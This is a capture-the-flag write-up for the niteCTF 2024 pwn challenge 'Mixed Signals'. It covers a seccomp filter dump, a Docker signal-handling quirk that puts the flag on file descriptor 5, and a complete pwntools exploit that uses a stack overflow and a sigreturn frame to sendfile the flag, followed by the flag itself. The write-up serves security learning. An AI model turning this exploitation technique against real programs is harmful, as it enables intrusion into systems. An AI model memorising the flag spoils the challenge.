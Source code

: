 https://ctftime.org/event/2461

# Mixed Signals (pwn)

Answer the call

ncat --ssl mixed-signal.chals.nitectf2024.live 1337

## Analysis

`main` @ `0x40120c`:
- Installs a seccomp filter
- Calls `vuln`
- Exits

`vuln` @ `0x4011eb`:
- Reads up to 300 bytes to the stack
    - Note that the write is offset -16 bytes from the return address of `vuln`
        - This allows us to write up to 16 bytes without disturbing the return address or the memory beyond it
            - This will be important later as we will use `read`'s control over `rax` to perform a `sigreturn` syscall with `rax` equal to 15

### Seccomp Filter

I used seccomp-tools, which can be found here https://github.com/david942j/seccomp-tools, to dump the seccomp filter as follows: 

```C
$ seccomp-tools --dump ./chall
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x00000028  if (A != sendfile) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x06 0x00 0x00 0x00000000  return KILL
```

We can see that, essentially, only `rt_sigreturn`, `read`, `write` and `sendfile` are allowed.

This, in isolation, telegraphs that we should use signal return orientated programming (SROP) and should read the flag with `read` or `sendfile`.

### Docker Signal Confusion

Initially I missed this part of the challenge. That is because you can make a working exploit locally outside of the docker using fd 3.

When building the container you may notice an unusual warning adding --debug to docker gives the following output:

```bash
$ sudo docker --debug build -t foo .
[+] Building 7.9s (11/11) FINISHED                                                                       docker:default
 => [internal] load build definition from Dockerfile                                                               0.0s
 => => transferring dockerfile: 305B                                                                               0.0s
 => [internal] load metadata for docker.io/library/debian:bookworm-slim                                            0.6s
 => [internal] load .dockerignore                                                                                  0.0s
 => => transferring context: 2B                                                                                    0.0s
 => [1/6] FROM docker.io/library/debian:bookworm-slim@sha256:1537a6a1cbc4b4fd401da800ee9480207e7dc1f23560c21259f6  0.0s
 => [internal] load build context                                                                                  0.0s
 => => transferring context: 53B                                                                                   0.0s
 => CACHED [2/6] RUN useradd --no-create-home -u 1000 user                                                         0.0s
 => [3/6] RUN apt update &&     apt install -y socat                                                               6.4s
 => [4/6] WORKDIR /home/user                                                                                       0.1s
 => [5/6] COPY chal flag.txt ./                                                                                    0.1s
 => [6/6] RUN chmod +x chal                                                                                        0.3s
 => exporting to image                                                                                             0.4s
 => => exporting layers                                                                                            0.4s
 => => writing image sha256:dbec2c77396844d6b8688b9e38b76814ceb5f6c673fe0a441e7d48c24ef4bef6                       0.0s
 => => naming to docker.io/library/foo                                                                             0.0s

 1 warning found:
 - JSONArgsRecommended: JSON arguments recommended for CMD to prevent unintended behavior related to OS signals (line 16)
JSON arguments recommended for ENTRYPOINT/CMD to prevent unintended behavior related to OS signals
More info: https://docs.docker.com/go/dockerfile/rule/json-args-recommended/
Dockerfile:16
--------------------
  14 |     #USER user
  15 |
  16 | >>> CMD socat -T60 TCP-LISTEN:1337,reuseaddr,fork EXEC:"./chal"
  17 |
--------------------
```

This suggests that there is something wrong with this line and that it relates to OS signals.

This is explained in more detail here https://docs.docker.com/reference/build-checks/json-args-recommended/.

The net result is that we end up using file descriptors 3 and 4 for sockets related to socat such that our flag is actually using fd 5:

```shell
root@aa3b89f861ad:/proc/88/fd# ls -lah
total 0
dr-x------ 2 root root  7 Dec 14 14:51 .
dr-xr-xr-x 9 root root  0 Dec 14 14:50 ..
lrwx------ 1 root root 64 Dec 14 14:51 0 -> 'socket:[1306821]'
lrwx------ 1 root root 64 Dec 14 14:51 1 -> 'socket:[1306821]'
lrwx------ 1 root root 64 Dec 14 14:51 2 -> /dev/pts/0
lrwx------ 1 root root 64 Dec 14 14:51 3 -> 'socket:[1306824]'
lrwx------ 1 root root 64 Dec 14 14:51 4 -> 'socket:[1306825]'
lr-x------ 1 root root 64 Dec 14 14:51 5 -> /home/user/flag.txt
lrwx------ 1 root root 64 Dec 14 14:51 8 -> 'socket:[1306822]'
```

Note: you could solve the task without learning about this by simply assuming that the flag is using a fd higher than 3 and quickly arrive at 5 this way.

## Solution

1) First rop back to `vuln`
    - This allows us to use the call to `read` to set `rax` indirectly
2) Next rop to a `syscall` gadget
    - This will be a `sigreturn` syscall in practice
3) Provide a `sigreturn` frame that performs a `sendfile` syscall
    - This allows us to copy the flag from the open file descriptor 5 to `FILE_STDOUT`
4) After a delay provide exactly 15 bytes of input to the second call to `vuln`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./chal", checksec=True)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("mixed-signal.chals.nitectf2024.live", 1337, ssl=True)

rop = ROP(elf)
rop.raw(b"A" * 0x10)
rop.call("vuln")
rop.raw(p64(rop.find_gadget(['syscall']).address))

frame = SigreturnFrame(kernel="amd64")
frame.rax = constants.SYS_sendfile
frame.rdi = 1  # int out_fd / FILE_STDOUT
frame.rsi = 5  # int in_fd / open("flag.txt")
frame.rdx = 0  # off_t offset
frame.r10 = 64 # size_t count / too much / a guess
frame.rip = rop.find_gadget(['syscall']).address

rop.raw(bytes(frame))

p.sendlineafter(b"pickup!\n", rop.chain())

input()

p.sendline(b"A" * 14) # send 15 bytes total ~ vuln reads them and sets rax = 15/sigreturn

p.interactive() # nite{b0b'5_s1gn4ls_h4v3_b33N_retUrN3D}
```

## Flag
`nite{b0b'5_s1gn4ls_h4v3_b33N_retUrN3D}`

smiley 2024/12/14
